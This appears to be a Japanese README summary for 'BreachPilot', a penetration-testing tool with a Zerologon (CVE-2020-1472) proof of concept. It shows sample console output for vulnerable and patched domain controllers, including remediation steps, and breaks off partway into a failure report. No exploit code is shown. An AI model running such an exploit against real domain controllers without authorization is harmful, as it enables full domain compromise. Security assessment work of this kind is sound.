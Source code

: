 # BreachPilot - 最終実装サマリー

## 🎉 完成した機能

### 1. ✅ Zerologon Exploit (CVE-2020-1472)

**実装内容:**
- 完全に動作するZerologon PoC
- 256回の試行で99.6%の検出率
- Pre-flight接続チェック
- 詳細な成功/失敗判定

**出力例 - 脆弱な場合:**
```
======================================================================
[+] SUCCESS! Zerologon authentication bypass achieved!
======================================================================
[+] Attempts: 42/256

[!] CRITICAL VULNERABILITY CONFIRMED
[!] Domain Controller is VULNERABLE to CVE-2020-1472

[*] Impact:
    - Authentication bypass successful
    - DC account can be compromised
    - Full domain compromise possible

[*] Remediation:
    1. Apply KB4565457 IMMEDIATELY
    2. Enable enhanced Netlogon security
    3. Monitor for exploitation

Artifacts:
  ✓ VULNERABLE to Zerologon
  ✓ Authentication bypass confirmed
  ⚠ CRITICAL: Immediate patching required
  ⚠ DC account can be compromised
  ⚠ Apply KB4565457 immediately
```

**出力例 - パッチ済みの場合:**
```
======================================================================
[-] Attack failed after maximum attempts
======================================================================
[+] Domain Controller appears patched against Zerologon
[+] No vulnerability detected
[+] System is secure from CVE-2020-1472

================================================================================
EXPLOIT FAILURE ANALYSIS REPORT
================================================================================

[EXECUTIVE SUMMARY]
Target: 192.168.253.30
CVE: CVE-2020-1472
Status: EXPLOIT FAILED
Confidence: 95%

[FAILURE CATEGORIES]
  - Target Patched (INFO)

[ROOT CAUSE ANALYSIS]
```